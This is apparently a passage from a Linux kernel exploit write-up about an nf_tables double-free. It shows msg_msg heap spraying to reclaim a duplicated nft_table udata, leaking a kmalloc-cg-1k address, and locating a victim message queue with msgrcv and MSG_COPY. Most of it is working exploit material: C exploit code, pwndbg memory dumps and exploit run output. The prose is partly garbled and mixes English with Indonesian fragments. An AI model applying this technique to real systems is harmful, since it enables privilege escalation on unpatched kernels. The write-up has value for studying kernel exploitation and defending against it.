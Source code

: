 then, we replace with msg_msg, we allocate msg_msg with size 256(primary message) to occupy the duplicate `nft_table->udata`, then mere and 1k(secondary), size 256 as pseudo objects of `nft_table`. then make msg->m_list->next from the premier message pointing to a message of size 1k (secondary message), and when we read `nft_table->udata`, we will get the address `kmalloc-cg-1k`

```bash
pwndbg> x/40gx msg

0xffff888105615600:	0x3232323232323232	0x3232323232323232 ->msg->m_list 
0xffff888105615610:	0x0000000000000041	0x00000000000000b8 -> msg->mtype 0x41, size = 0xe8 - 0x30 = 0xb8 ... (232 - 48)
0xffff888105615620:	0x0000000000000000	0x0000000000000000
0xffff888105615630:	0x4141414141414141	0xdeadbeefcafebabe -> msg->mtext[8]

```

dan ini hasilnya

```bash
pwndbg> x/40gx 0xffff888105615600

0xffff888105615600:	0xffff88810307a400	0xffff8881056157c0
0xffff888105615610:	0x0000000000000041	0x00000000000000b8
0xffff888105615620:	0x0000000000000000	0x0000000000000000
0xffff888105615630:	0x4141414141414141	0xdeadbeefcafebabe
```

This value `0xffff888105615600` is occupied by our primary message (kmalloc-cg-256), and msg->m_list->next points to kmalloc-cg-1k because that is the size of our secondary message, let's prove it by getting `nft_table` again, and this is the result:

```bash
[ Bam0x7 ]
/ $ ./exploit
[*] prepare table and chain
[*] trigger double-free
[+] table spray-0->udata 0x3232323232323232
[+] table spray-2->udata 0x3232323232323232
[+] got duplicated table
[*] replace with msg_msg
[*] kmalloc-1k msg: 0xffff88810307a400

```

now, we need to find msg->next so we can do a double free on kmalloc-cg-1k like our first plan. by creating a fake secondary message that will be allocated as `nft_table`, and using msgrcv with the MSGCOPY flag so that the original message is not destroyed to find out what order the secondary message is inalsu kita.

```c
// Find next msg
    fake_obj[0] -= 1024 * 20;
    deludata_spray(nl, 2, 1);
    wait_destroyer();
    udata_spray(nl, 0xe8, 3, 1, fake_obj);
    wait_destroyer();
    if (msgrcv(evilqid, msg, 1024 - 48, MTYPE_SECONDARY, IPC_NOWAIT | MSG_COPY) < 0)
    {
        perror("[-] msgrcv");
    }

    int victim_idx = *(uint32_t *)msg->mtext;
    printf("[*] victim qid: %i\n", qid[victim_idx]);
```
